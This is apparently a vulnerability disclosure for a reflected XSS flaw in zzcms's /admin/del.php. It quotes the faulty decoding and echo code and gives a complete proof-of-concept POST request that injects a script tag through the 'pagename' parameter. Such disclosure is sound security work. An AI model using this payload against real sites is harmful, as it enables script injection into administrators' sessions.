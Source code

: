   

### Reflected xss vulnerability in /admin/del.php

Vulnerability Analysis

First of all there is actually a global filter on our xss

But in del.php the

```java
$pagename=isset($_POST["pagename"])?$_POST["pagename"]:'';
$pagename=htmlspecialchars_decode($pagename,ENT_QUOTES);
```

You can see that another htmlspecialchars_decode decoding was performed on our pagename, resulting in a successful input of the xss statement

At line 85

```php
echo "<script>location.href='".$pagename."'</script>";
```

Here echo outputs our parameters, so only by special construction can we cause xss

POC

```java
POST /admin/del.php HTTP/1.1
Host: zzcms:8786
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: specialclassid=1; bids=2%2C3%2C4%2C5%2C6%2C1; tablename=zzcms_zhaoshangclass; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; __tins__713776=%7B%22sid%22%3A%201724592900494%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201724594907917%7D; __51laig__=27
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

pagename=1"</script><script>alert(1)</script><script>"1&tablename=zzcms_zhaoshang
```

![image-20240825215528791](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240825215528791.png)

![image-20240825215621858](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240825215621858.png)

### 
